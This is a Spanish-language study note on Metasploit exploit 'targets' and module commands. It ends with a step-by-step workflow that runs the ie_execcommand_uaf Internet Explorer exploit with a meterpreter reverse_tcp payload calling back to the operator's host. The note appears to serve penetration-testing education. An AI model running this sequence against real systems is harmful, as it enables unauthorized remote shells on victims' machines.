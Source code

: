 Un target es una configuración específica dentro de un módulo de exploit que describe qué versión del sistema (OS / aplicación) es vulnerable y qué técnicas/direcciones debe usar el exploit para funcionar.
Cada target ajusta parámetros (direcciones de retorno, ROP, dependencias) para que el exploit encaje en esa versión concreta.

## Conceptos clave

- Target del tipo **Automatic (0)**: msf intenta detectar la versión del objetivo y elegir el target adecuado automáticamente.
- **Lista de targets**: cada módulo puede exponer varios targets (ej. `IE 8 on Windows 7`, `IE 9 on Windows 7`, etc.) . En el caso del ejemplo, cada línea describe una combinación concreta de **versión de Internet Explorer + sistema operativo** para la que el exploit tiene un _método de explotación_ preparado (offsets, gadgets, técnicas, etc.).
- **`info`**: muestra detalles del módulo (descripción, autores, fecha, targets, dependencias).
- **`show options` / `options`**: lista las opciones configurables del módulo (RHOSTS, RPORT, SRVHOST, payload options...).
- **`show targets`**: lista los targets disponibles para el módulo actual.
- **`set target <id>`**: fija manualmente el target (por ejemplo `set target 6`).
- **Payload options**: ajustes del payload (ej. `LHOST`, `LPORT`, `EXITFUNC`).

## Por qué hay varios targets

Las direcciones de memoria, offsets, dependencias (ej. JRE, `msvcrt`) y el comportamiento interno cambian entre versiones de SO, Service Packs y versiones/idiomas de aplicaciones. El exploit necesita técnicas específicas para cada variante; por eso se listan targets separados.

## Flujo de trabajo típico (guion rápido)

```
# 1. Seleccionar módulo
use exploit/windows/browser/ie_execcommand_uaf

# 2. Ver info del módulo (recomendado)
info

# 3. Ver opciones y payloads
show options
show payloads

# 4. Ver targets disponibles
show targets

# 5. Si conoces la versión del objetivo:
set target 6           # (ejemplo: selecciona el target con id 6)

# 6. Configurar opciones principales
set RHOSTS 10.10.10.40
set SRVHOST 0.0.0.0
set SRVPORT 8080

# 7. Configurar payload
set payload windows/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT 4444

# 8. Comprobar todo
show options

# 9. Ejecutar
exploit

```

